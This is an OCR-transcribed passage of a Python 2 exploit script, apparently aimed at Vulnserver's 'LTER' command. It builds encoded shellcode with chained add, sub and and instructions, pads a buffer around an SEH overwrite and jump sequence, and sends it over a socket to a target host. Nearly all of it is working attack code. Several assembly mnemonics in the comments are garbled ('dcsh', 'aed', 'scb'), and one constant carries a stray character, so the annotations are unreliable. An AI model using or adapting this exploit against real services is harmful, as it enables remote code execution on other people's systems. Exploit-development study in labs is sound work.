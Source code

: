 ```python
shellcode += "\x05\x24\x47\x04\x04" ## add  eax, 0x04044724
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x11\x36\x61\x74" ## add  eax, 0x74613611
shellcode += "\x05\x22\x36\x51\x63" ## add  eax, 0x63513622
shellcode += "\x05\x11\x24\x61\x53" ## add  eax, 0x53612411
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x07\x02\x74\x17" ## add  eax, 0x17740207
shellcode += "\x05\x07\x01\x64\x07" ## add  eax, 0x07640107
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x61\x02\x21\x35" ## add  eax, 0x35210261
shellcode += "\x05\x61\x02\x10\x35" ## add  eax, 0x35100261
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235s
shellcode += "\x05\x65\x61\x31\x42" ## add  eax, 0x42316165
shellcode += "\x05\x64\x50\x21\x41" ## add  eax, 0x41215064
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x11\x72\x54\x22" ## add  eax, 0x22547211
shellcode += "\x05\x21\x62\x44\x22" ## add  eax, 0x22446221
shellcode += "\x05\x11\x52\x43\x22" ## add  eax, 0x22435211
shellcode += "\x2D\x33\x33\x33\x33" ## scb  eax, 0x33333333
shellcode += "\x50"                 ## dcsh eax
shellcode += "\x25\x4A\x4D\x4E\x55" ## aed  eax, 0x554e4d4a
shellcode += "\x25\x35\x32\x31\x2A" ## aed  eax, 0x2a313235
shellcode += "\x05\x45\x71\x67\x61" ## add  eax, 0x61677145
shellcode += "\x05\x44\x71\x56\x51" ## add  eax, 0x51567144
shellcode += "\x50"


buffer = espAdj3
buffer += shellcode
buffer += 'A' * (3427 - len(espAdj3) - len(shellcode))
buffer += espAdj2
buffer += longJump
buffer += 'A' * (3514 - 3427 - len(espAdj2) - len(longJump))
buffer += nSeh
buffer += Seh
buffer += espAdj
buffer += jump
buffer += 'D' * (4000 - len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```
